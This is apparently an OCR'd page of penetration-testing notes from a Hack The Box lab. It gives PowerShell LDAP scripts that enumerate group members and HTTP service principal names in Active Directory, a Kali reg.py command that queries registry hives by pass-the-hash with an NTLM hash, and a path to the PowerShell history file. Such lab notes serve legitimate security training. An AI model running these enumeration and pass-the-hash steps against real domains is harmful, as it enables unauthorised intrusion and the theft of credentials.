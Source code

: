 ```powershell
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=[group-name])"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

#### Enumerating service principal names to figure out the running services on the domain controller. In the example below, we enumerate for ‘http’.

\[Script Name: srv-principal-names-enumeration.psh]

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

#### Enumerating registry hives given a username and password hash

```
<root@kali: reg.py htb.local/henry.vinson@apt.htb  -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb 4a876cbffb query -keyName HKCU  -s>
```

#### Enumerating Powershell history

```
PS
C:\\Users\\henry.vinson\_adm\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline>
```
